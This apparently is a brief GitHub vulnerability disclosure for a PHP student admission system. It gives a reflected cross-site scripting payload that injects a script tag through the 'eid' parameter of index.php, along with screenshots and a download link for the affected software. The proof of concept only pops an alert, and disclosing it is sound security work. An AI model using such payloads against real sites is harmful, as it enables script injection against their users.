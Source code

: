 # Student-Admission-Xss

### Xss Payload

```
index.php?a=edit&eid=8</h3><script>alert(1)</script>
```

![image](https://user-images.githubusercontent.com/72059221/182757706-14a19be6-c7b9-4dd6-b181-7ea452ec13d2.png)

#### Code

![image](https://user-images.githubusercontent.com/72059221/182757859-313f5730-5ff0-489b-b9ef-a56f1846c0b4.png)

## Code Download

https://www.sourcecodester.com/php/15514/online-admission-system-php-and-mysql.html
